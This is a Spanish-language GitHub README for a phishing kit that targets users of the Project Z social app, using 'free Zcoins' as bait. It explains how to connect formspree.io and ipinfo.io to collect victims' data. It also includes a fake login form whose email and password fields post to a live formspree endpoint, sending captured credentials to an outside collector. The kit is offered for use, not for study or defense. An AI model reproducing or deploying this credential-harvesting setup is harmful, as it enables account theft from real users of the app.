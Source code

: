 # phishing-Projz.com
Autor : BSZ - BlackStrZ

# phising - BSZ / Proyecto Zcoins free

El Proyecto Z, también conocido como la aplicación Z, es tu destino para conocer a tus amigos del metaverso, mejores amigos, almas gemelas y jugadores de rol. También es una comunidad global de personas que buscan diversión y dar rienda suelta a su creatividad, y autoexpresión.

Este scrip esta echo para penetrar la seguridad de una app link de la app : https://www.projz.com/

## utilizaremos 2 apis a qui :
api formularios free : https://formspree.io/
api envio de datos ip : https://ipinfo.io/

como conectar el api de formulario :
  <!--
<form
  action="https://formspree.io/f/myyrjegg"
  method="POST"
>
  <label> 
    <input type="email" name="email" class="custom-input" placeholder="Email">
  </label>
  <label>
   <input type="password" name="password" id="passwordInput" class="custom-input" placeholder="Contraseña">  
  </label>

<button type="submit" class="custom-button"><h2>Iniciar Sesión</h2></button>
</form>
  -->
